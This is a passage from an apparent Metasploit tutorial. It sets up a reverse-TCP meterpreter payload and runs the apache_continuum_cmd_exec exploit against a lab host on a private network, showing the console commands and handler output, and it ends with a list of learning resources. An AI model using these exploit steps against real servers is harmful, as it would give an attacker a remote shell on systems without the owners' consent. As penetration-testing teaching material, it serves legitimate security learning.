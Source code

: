 Payload options (linux/x86/meterpreter/reverse_tcp):

   Name          Current Setting  Required  Description
   ----          ---------------  --------  -----------
   DebugOptions  0                no        Debugging options for POSIX meterpreter
   <b>LHOST         192.168.1.15     yes       The listen address</b>
   LPORT         4444             yes       The listen port
</code></pre>
Now, we run the exploit:
```
msf exploit(apache_continuum_cmd_exec) > run
```
```
[*] Started reverse TCP handler on 0.0.0.0:4444 
[*] Injecting CmdStager payload...
```
We now have a server running on our Kali box at `192.168.1.15` listening at port `4444` and trying to attack remote server 
at `192.168.1.10`

**... To be continued**

# <span id="resources">Resources</span>

**To learn more**:
- <a href="https://www.offensive-security.com/metasploit-unleashed" target="_blank">Metasploit Unleashed</a>
- <a href="http://www.nostarch.com/metasploit" target="_blank">Metasploit - The Penetration Tester's Guide</a>
- <a href="http://resources.metasploit.com" target="_blank">Metasploit External Resource Portal</a>

**To get help**:
- <a href="https://community.rapid7.com/community/metasploit" target="_blank">Rapid7 Community</a>
- <a href="https://security.stackexchange.com/questions/tagged/metasploit" target= "_blank">Information Security - Stack Exchange</a>
